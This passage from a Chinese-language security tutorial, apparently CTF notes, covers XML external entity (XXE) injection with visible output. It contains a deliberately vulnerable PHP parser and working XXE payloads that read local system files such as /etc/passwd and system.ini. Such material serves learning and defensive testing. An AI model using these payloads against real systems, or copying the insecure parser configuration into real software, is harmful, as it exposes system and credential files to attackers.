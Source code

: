 ### 有回显

（1）直接将外部实体引用的URI设置为敏感目录

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<name>&xxe;</name>
```

在使用过程中注意实体应用的位置，否则可能无法回显，如下图对比，`&xxe`调用的位置不一样，所以一个有输出，一个没有输出

![](images/ctf-2021-06-18-15-24-19.png)
